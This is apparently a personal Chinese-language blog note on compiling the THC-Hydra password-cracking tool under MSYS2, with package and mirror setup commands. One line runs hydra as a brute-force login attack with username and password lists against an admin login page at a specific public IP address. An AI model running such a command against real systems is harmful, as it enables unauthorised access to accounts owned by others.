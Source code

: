 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make openssl-devel

./configure && make

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

```bash
pacman -F  jq.exe #搜索软件包（By File）
pacman -Ss gcc    #搜索软件包（By Name）
pacman -Sg mingw-w64-x86_64-toolchain #查看软件组
```

```bash
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/$arch' > /etc/pacman.d/mirrorlist.msys
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/i686' > /etc/pacman.d/mirrorlist.mingw32
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/x86_64' > /etc/pacman.d/mirrorlist.mingw64
pacman -Sy
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/msys2-runtime-3.0.7-3.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.7-3-x86_64.pkg.tar.xz)
  * msys-z.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/zlib-1.2.11-1.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/zlib-1.2.11-1-x86_64.pkg.tar.xz)
  * msys-ssl-1.1.dll, msys-crypto-1.1.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/openssl-1.1.1.c-1.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/libopenssl-1.1.1.c-1-x86_64.pkg.tar.xz)
* https://www.msys2.org
* https://packages.msys2.org/group/
* https://mirrors.ustc.edu.cn/help/msys2.html
